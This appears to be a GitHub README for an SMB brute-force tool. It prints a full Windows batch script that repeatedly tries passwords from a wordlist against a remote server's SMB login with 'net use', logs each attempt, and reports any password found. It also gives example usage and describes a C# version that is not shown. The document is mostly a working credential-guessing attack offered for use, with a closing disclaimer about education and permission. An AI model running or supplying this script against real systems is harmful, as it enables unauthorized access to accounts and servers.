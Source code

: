 # SMB Bruteforce 2.0v
This C# application performs a brute force attack on SMB (Server Message Block) to try and discover a user's password on a remote server. Originally a .bat script, it has been converted to C# for improved readability and efficiency. The application prompts the user for the target IP address, username, and the path to a password list file. It then attempts to authenticate to the SMB server using each password from the list, logging the details of each attempt.

### .BAT CODE
```bat
@echo off
title SMB Bruteforce - by Lira
color A
echo.
setlocal enabledelayedexpansion

:validate_ip
set "ip=%~1"
for /f "tokens=1-4 delims=." %%a in ("%ip%") do (
    if %%a lss 0 set valid_ip=0
    if %%a gtr 255 set valid_ip=0
    if %%b lss 0 set valid_ip=0
    if %%b gtr 255 set valid_ip=0
    if %%c lss 0 set valid_ip=0
    if %%c gtr 255 set valid_ip=0
    if %%d lss 0 set valid_ip=0
    if %%d gtr 255 set valid_ip=0
)
if defined valid_ip (
    echo Invalid IP address. Please enter a valid IP address.
    exit /b 1
)
goto :eof

:input
set /p ip="Enter IP Address: "
call :validate_ip %ip%
set /p user="Enter Username: "
set /p wordlist="Enter Password List (with full path): "
if not exist "%wordlist%" (
    echo Password list file not found. Please enter a valid file path.
    exit /b 1
)

setlocal enabledelayedexpansion
for /f %%a in ('find /c /v "" ^<"%wordlist%"') do set total=%%a
set /a progress=0

set log="bruteforce_log.txt"
echo SMB Bruteforce Log > %log%
echo Target IP: %ip% >> %log%
echo Username: %user% >> %log%
echo Wordlist: %wordlist% >> %log%
echo. >> %log%

set /a count=1
for /f "usebackq tokens=*" %%a in ("%wordlist%") do (
    set "pass=%%a"
    call :attempt
    set /a progress+=1
    set /a percent=(progress*100)/total
    <nul set /p "=Progress: !percent!%% [!progress! / !total! attempts]" 
    echo.
)
echo Password not Found :(
echo Password not Found :( >> %log%
pause
exit

:success
echo.
echo Password Found! !pass!
echo Password Found! !pass! >> %log%
net use \\%ip% /d /y >nul 2>&1
pause
exit

:attempt
net use \\%ip% /user:%user% "!pass!" >nul 2>&1
echo [ATTEMPT !count!] [!pass!]
echo [ATTEMPT !count!] [!pass!] >> %log%
set /a count+=1
if !errorlevel! EQU 0 goto success
goto :eof
```

## Features
The program begins by setting up the console and collecting user inputs. It validates the provided IP address to ensure it is in the correct format, comprising four numbers between 0 and 255. After validating the IP address, the application reads the passwords from the provided list and initiates the brute force process. Each authentication attempt is made using the net use command, and the exit code of this command is checked to determine if the attempt was successful. All results, including successful and unsuccessful attempts, are logged in a detailed log file.

## Prerequisites
To compile and run this C# application, you will need the `.NET Framework`. Additionally, since the net use commands require `administrative privileges`, ensure that you have the necessary permissions to execute these commands.

## Example Usage
When you run the program, it will prompt you to enter the target `IP address`, the `username`, and the full path to your `password list` file. For example:
```
Enter IP Address: 192.168.56.255
Enter Username: admin
Enter Password List (with full path): C:\passwords.txt
```
The program will then attempt to authenticate to the SMB server using each password from the provided list. Progress will be displayed in the console, and each attempt will be logged. If the correct password is found, a success message will be displayed and logged.

## Code Structure
The Main method is responsible for setting up the console and collecting user inputs. It then validates the IP address, reads the password list, and initiates the brute force process. The Prompt method is used to display messages and read user inputs, while the ValidateIP method checks if the provided IP address is valid. The AttemptLogin method executes the net use command to attempt authentication and checks the exit code to determine if the authentication was successful.
### Explanation of Key Components
**Main Method:**

- Sets the console title and color.
- Prompts the user for IP address, username, and the path to the password list.
- Validates the IP address format.
- Reads passwords from the provided file.
- Initiates the brute force process and logs results.

**Prompt Method:**

- Displays a message and reads the user's input.
- This method simplifies the process of collecting input from the user.

**ValidateIP Method:**

- Splits the IP address into its components.
- Checks if each component is a number between 0 and 255.
- Returns true if the IP address is valid, otherwise returns false.

**AttemptLogin Method:**

- Constructs the command to attempt SMB login using net use.
- Configures the process to run the command silently.
- Executes the command and waits for it to finish.
- Returns true if the login attempt was successful (exit code 0), otherwise returns false.

## ⚠️ Legal Disclaimer
This code was created for educational purposes and testing in controlled environments. Using this code on servers or networks without permission is illegal and can result in severe penalties. Use it responsibly and always obtain permission before conducting security tests on any system.
